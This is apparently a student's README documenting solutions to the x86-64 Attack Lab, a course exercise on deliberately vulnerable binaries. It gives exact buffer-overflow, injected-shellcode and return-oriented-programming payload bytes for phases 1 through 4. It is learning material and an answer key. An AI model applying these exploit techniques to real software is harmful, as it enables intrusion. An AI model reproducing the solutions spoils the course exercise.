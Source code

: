 # Attack Lab
This is an x86-64 attack lab for self-study students.

I also document what I had to do to solve this lab.

## Tools
- GDB
- objdump
- GCC

## Phase 1
This is a simple buffer overflow exploit. You can see the dump of the ctarget binary [here](./dump_ctarget.txt). We need to exploit the vulnerability in [getbuf](./dump_ctarget.txt#L777). The first instruction is the key here. `sub $0x28,%rsp` means we will need to provide 40 bytes before we can modify the return address located in the stack. In the 40th byte, we will give the address of the function [touch1](./dump_ctarget.txt#L787) in little endian format (`c0 17 40 00 00 00 00 00`). Hence, we get the following answer:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

## Phase 2
Similar to phase 1 except we need to add the instruction to store our cookie in register `%rdi`. We need to execute few instructions before we transfer control to touch2. For this, we will need the 40-47 bytes to contain the address pointing back into the stack that stores the *buffer* (0-39 bytes from getbuf). The buffer will be modified in such a way that it will update the value of register `%rdi` (the first argument to the function), and then hand over the control to touch2. To get to the function touch2, we will use the `retq` instruction. Recall that `retq` pops the value from the stack and into the register `%rip` (register which holds the memory address to the next instruction to execute). This means we will have to push the address of touch2 into our stack. This push will modify the return address located in our stack (bytes 40-47), which will allow our exploit to safely transfer the control. The instructions we will execute will look like this:
```asm
0:	68 ec 17 40 00       	pushq  $0x4017ec           /* Push address of touch2 to stack  */
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi    /* Move cookie to register %rdi */
c:	c3                   	retq   
d:	90                   	nop
e:	90                   	nop
f:	90                   	nop
```

Our answer will then, look like this:
```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 90 90 90
ec 17 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3
This one is also pretty simple. We need to call touch3 and store the address of our cookie string in register `%rdi`. The challenge we face are the various instructions that will overwrite our stack. Hence, we need to store the string representation of our cookie on an address which will not get overwritten. Notice how the `pushq` instruction we use in our execution code pushes data on address `0x5561dca0`. This means, all the future pushes to the stack will be on addresses starting from `0x5561dca0` and onwards. Therefore, we will store our string in the stack on address `0x5561dca8`. Our execution code will look like this:
```asm
0:	68 fa 18 40 00       	pushq  $0x4018fa
5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c:	c3                   	retq
```

Solution:
```
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 /* Our cookie's string representation */
```

## Phase 4
This is a very easy phase. We just need to find byte sequences in the gadget farm provided to us. We may not be able to make the target execute our code, but we can still modify the stack and add our data to it. Firstly, we will still overflow our buffer of 40 bytes, and overwrite the return address. Secondly, we need to fill our stack with addresses and data that will make the program execute the exploit similar to phase 2. The hints and constraints in the lab's reading helped me narrow down on what byte sequences I am looking for.

The `popq` instruction is very useful to us here. It will pop the value from the stack and into the register of our choosing. This means, we can store our cookie in the stack and pop it to a register.

(Note that the text for phase 4 below are made with reference to the [disassembly of rtarget binary file](./dump_rtarget.txt))

I wasn't able to find the byte `5f` (pop stack data to register `%rdi`) in the gadget farm, so I settled with the byte `58` (pop stack data to register `%rax`). Luckily, I was able to find the byte sequence for the instruction `movq %rax,%rdi` in the gadget farm. Otherwise, I would have had to look for an alternative to `58`.

With this information, we can create our solution string:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction popq %rax */
fa 97 b9 59 00 00 00 00 /* Our cookie */
c5 19 40 00 00 00 00 00 /* Address of byte sequence for the instruction movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* Address of touch2 */
```

## Phase 5
